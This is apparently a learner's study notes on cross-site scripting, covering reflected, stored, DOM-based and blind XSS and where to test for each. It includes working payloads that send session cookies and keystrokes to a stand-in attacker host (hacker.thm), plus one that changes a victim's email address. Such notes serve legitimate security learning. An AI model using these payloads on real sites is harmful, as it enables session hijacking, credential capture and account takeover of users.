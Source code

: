 aIn short: injection of malicious javascript

### XSS Payloads

Payload: the javascript code

Examples: 

Proof of concept:
`<script>alert('XSS');</script>`: used to check if XSS is possible

Session Stealing:
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

Key Logger:
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

Business Logic:
`<script>user.changeEmail('attacker@hacker.thm');</script>`: call a function used in JS, here change email adress

### Reflected XSS

when user-supplied data in a HTTP request is included in the webpage source without any validation

Exemple: 

![[Pasted image 20250407183010.png]]ù

Impact: attacker can send links, embed them into an iframe on another website containing a JS payload to potential victims, getting them to execute code in their browser, revealing session or customer information

To test:

- Parameters in the URL Query String 
- URL File Path
- HTTP Headers (but unlikely)

### Stored XSS

Example:

![[Pasted image 20250407183330.png]]

Tests to make:
- Comments on a blog
- Personal User profile information
- Website Listings

Good idea: test directly the API without making requests from the browser, allows to skip form validation

### [[To sort/CYBER/DOM]] Based XSS

Exploits JS directly in the browser, without pages loaded or data submitted to backend

Example Scenario:
=> website's JS checks for window.location.hash parameter and writes that onto the page into the currently being viewed section
=> contents not checked for malicious code, can inject code there
=> allows to create malicious links to redirect them elsewhere

Test: Need to check for variables that attacker can have control of like `window.location.x`, then needs to see how they are handled and whether values are written on the DOM or passed to unsafe JS methods such as eval().

### Blind XSS

Similar to [[#Stored XSS]], as payload is stored for someone else to see, but here you can't see the payload working or to test it against yourself

Example: chat with customer support where messages are not validated that are turned into support tickets

To test:
- make sure there is a callback (ex: HTTP response)
- use XSS Hunter Express: captures cookies, URLs, page contents, ...


## Examples








